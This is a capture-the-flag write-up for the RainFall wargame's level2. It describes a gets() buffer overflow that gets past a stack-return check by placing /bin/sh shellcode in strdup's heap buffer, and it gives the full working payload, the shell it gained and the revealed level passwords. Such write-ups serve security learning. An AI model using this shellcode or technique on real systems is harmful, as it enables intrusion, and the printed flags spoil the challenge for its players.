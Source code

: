 # **Level2**

## **Analysis**

**In `main` :**

Just a call to function `p()`

**In `p()` :**

call to `gets` which is vunerable to overflow
There is a protection afterward to check if `eip` doesn't get overwritten by an adress from the stack
we cannot use the stack but thanks to `strdup` we can use the heap

Adress of the allocated memory by strdup on the heap is `0x0804a008`
```
level2@RainFall:~$ echo "42" | ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff804, 0x8048550, 0x80485c0 <unfinished ...>
...
strdup("42")                = 0x0804a008
+++ exited (status 8) +++
```

___

## **Exploit**

Determine the offset of `eip` => 80
```
 ❯ python3 offset.py   
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

(gdb) r
Starting program: /home/user/level2/level2
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz%
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPUUUURRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz%

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()

 ❯ python3 offset.py 55
80
```

We'll write a shellcode on the heap with `strdup`
and overwite `eip` to its adress

So the end buffer is:
 - shellcode (45 bytes)
 - NOP instructions (35 characters)
 - address allocated by strdup (4 bytes)
```
level2@RainFall:~$ python -c 'print "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x90" * 35 + "\x08\xa0\x04\x08"' > /tmp/level2 && cat /tmp/level2 - | ./level2
�^�1��F�F
          �
           ���V
               ̀1ۉ�@̀�����/bin/sh�������������������������������
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

___

*Password: 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77*